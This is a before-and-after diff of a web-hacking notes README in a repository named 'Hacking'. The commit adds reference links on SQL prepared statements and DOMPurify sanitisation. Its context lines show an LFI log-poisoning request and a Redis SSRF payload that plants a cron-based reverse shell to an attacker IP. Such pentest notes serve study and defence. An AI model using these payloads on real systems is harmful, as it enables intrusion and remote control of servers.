

Before and after one commit to 4nuit/Hacking, a Markdown page: web/README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
mysql c api, dompurify

```diff
--- a/web/README.md
+++ b/web/README.md
@@ -294,6 +294,7 @@ curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
   - `mysqli::prepare`: https://websitebeaver.com/prepared-statements-in-php-mysqli-to-prevent-sql-injection
     - https://www.php.net/manual/en/mysqli.real-escape-string.php
     - https://www.php.net/manual/en/mysqli.prepare.php
+    - https://dev.mysql.com/doc/c-api/8.0/en/c-api-prepared-statement-interface.html
   - `PDO::prepare`: https://websitebeaver.com/php-pdo-prepared-statements-to-prevent-sql-injection
     - https://www.php.net/manual/en/pdo.prepared-statements.php
     - https://www.php.net/manual/en/pdo.setattribute.php#121309
@@ -447,6 +448,8 @@ dict://127.0.0.1:6379/set -.- "\n\n\n* * * * * bash -i >\x26 /dev/tcp/<ip>/<port
 - `document.innerHTML`
 - `Hash (#)`: https://www.w3schools.com/jsref/tryit.asp?filename=tryjsref_loc_hash
 - `getElements` https://www.w3schools.com/js/tryit.asp?filename=tryjs_dom_getelementsbytagname
+- `Protection/Sanitazation`:
+	- https://github.com/cure53/DOMPurify
 
 ### Challenges
 
```
